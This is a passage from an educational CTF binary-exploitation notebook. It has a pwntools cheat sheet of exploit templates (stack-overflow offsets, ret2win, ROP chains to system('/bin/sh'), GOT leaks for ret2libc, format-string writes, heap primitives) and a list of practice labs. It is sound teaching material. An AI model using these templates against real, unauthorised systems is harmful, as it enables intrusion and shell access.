- **Defeating ASLR** is the leak-then-exploit core: call `puts(puts@got)` to leak libc's runtime address via the **GOT/PLT**, compute **`libc_base = leak - offset`**, return to `main` for a second shot, then build the ret2libc chain with computed addresses. Requires the **exact libc version** and a **twice-triggerable** bug.
- **Format strings** (`printf(user_input)`) give an arbitrary **read** (`%p`/`%s` leak the stack, canaries, libc — the easiest ASLR defeat) and an arbitrary **write** (`%n` writes the printed-character count to a chosen address).
- **Heap** (Notebook 36 goes deeper): **use-after-free** (control a freed object's contents/function pointers) and **tcache poisoning** (overwrite a freed chunk's next-pointer → allocate at an arbitrary address). Harder; attempt after stack fluency.
- **pwntools** makes it all practical — `context.binary`, `cyclic`, the `ROP` object, `ELF`/`libc` symbol resolution, `libc.address = leak - offset`. **Develop locally under pwndbg, switch to `remote()` for the flag.**

## Cheat Sheet / Quick Reference

**The loop**

```
checksec -> find bug -> control RIP -> defeat mitigations -> shell
first command ALWAYS: checksec --file=chal
```

**Mitigation -> technique**

```
canary present   -> leak the canary (often via format string)
NX enabled       -> ROP (no shellcode)
ASLR/PIE on      -> LEAK an address first, then compute base
no canary+no PIE -> ret2win / static ROP are easy
```

**Stack overflow offset**

```python
p.sendline(cyclic(200))           # crash it
# in gdb/pwndbg: cyclic_find(<value in RIP>)  -> the offset
payload = b"A"*offset + p64(target)
```

**ret2win**

```python
payload = b"A"*offset + p64(ret_gadget) + p64(elf.symbols["win"])
# ret_gadget = 16-byte alignment fix
```

**ROP to shell**

```
pop rdi; ret  ->  &"/bin/sh"  ->  ret(align)  ->  system
ROPgadget --binary chal | grep 'pop rdi'      one_gadget libc.so.6
```

**Leak + ret2libc (the modern pattern)**

```python
rop = ROP(elf); rop.puts(elf.got["puts"]); rop.call(elf.symbols["main"])
# ...send, then:
libc.address = u64(leak.ljust(8,b"\x00")) - libc.symbols["puts"]
rop2 = ROP(libc); rop2.system(next(libc.search(b"/bin/sh\x00")))
```

**Format string**

```
%p %p %p        -> leak stack (find your input's slot)
%7$p            -> leak the 7th arg (positional)
%7$s            -> read the pointer in slot 7
%n              -> arbitrary WRITE (count -> address)
pwntools: fmtstr_payload(offset, {addr: value})
```

**Heap primitives**

```
use-after-free  -> control a freed object's function pointer
tcache poison   -> overwrite freed chunk's next -> malloc at chosen addr
```

## Practice Labs & Resources

**Start here (in order)**
- **pwn.college** — Arizona State's binary-exploitation curriculum, free and structured from the stack up. The best single resource for this category.
- **picoCTF Binary Exploitation** — gentle, scaffolded introductions to overflows, ret2win, and format strings.
- **ROP Emporium** — a focused series that teaches ROP one concept at a time (ret2win → split → callme → write4 → badchars → pivot). Work all of it.

**Then**
- **OverTheWire Narnia** — classic small-binary exploitation wargames.
- **HackTheBox pwn challenges** and live CTF pwn problems — the real thing, at increasing difficulty.
- **how2heap** (Shellphish) — the canonical, hands-on tour of heap exploitation techniques when you are ready for the heap.

**Tool fluency**
- Learn **pwntools** by rewriting each lab exploit until the framework is second nature; read its docs on `ROP`, `ELF`, and `fmtstr_payload`.
- Set up **gdb + pwndbg** and practise `cyclic`, breaking at the return, and watching a ROP chain execute frame by frame.
- Use **ROPgadget**, **one_gadget**, and **libc-database** on real binaries until finding gadgets and resolving libc is routine.

**Hands-on**
- Extend the lab: defeat a canary via a leak, add PIE and a binary leak, use `one_gadget`, and run a ret2libc against a remote with a provided libc.
- Solve every ROP Emporium level and write each up, stating the mitigation each defeats.
- Reproduce a CTF pwn solve you could not get, from the writeup, in your own pwntools.

**Deliberate practice**
- Make `checksec`-then-plan a reflex: for ten binaries, write the exploit *strategy* from the `checksec` output alone before touching them.
- Do at least one full stack exploit *by hand* (no pwntools ROP object) so you understand what the framework automates.
- Always develop locally under the debugger; treat blind remote debugging as a smell that you skipped the local step.

**Further reading**
- Notebook 36 (vulnerability research & binary exploitation) — the professional-depth continuation: modern heap, kernel, and browser exploitation, and finding these bugs in real software.
- Chapter 6 of this notebook (reversing) — the prerequisite skill for finding the bug.
- *Hacking: The Art of Exploitation* (Erickson) for the classic foundations, and the LiveOverflow binary-exploitation video series for the reasoning-out-loud style that makes the concepts click.
